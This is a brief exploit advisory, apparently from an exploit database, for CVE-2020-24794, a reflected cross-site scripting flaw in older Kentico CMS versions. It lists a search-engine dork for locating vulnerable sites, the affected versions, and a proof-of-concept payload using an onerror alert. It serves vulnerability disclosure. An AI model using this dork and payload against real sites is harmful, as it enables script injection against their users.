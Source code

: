 cve-2020-24794

Cross Site Scripting (XSS) vulnerability in Kentico before 12.0.75.

# Exploit Title: XSS-REFLECT
# Google Dork: inurl:CMSPages
# Date: 26/06/2020
# Exploit Author: Andrei Manole
# Vendor Homepage: kentico[.]com
# Version: 7,8,9,10,11,12.0.65
# Tested on: 7,8,9,10,11,12.0.65

Payload: (X("onerror="alert`xss`"))/
POC: target.com/payload
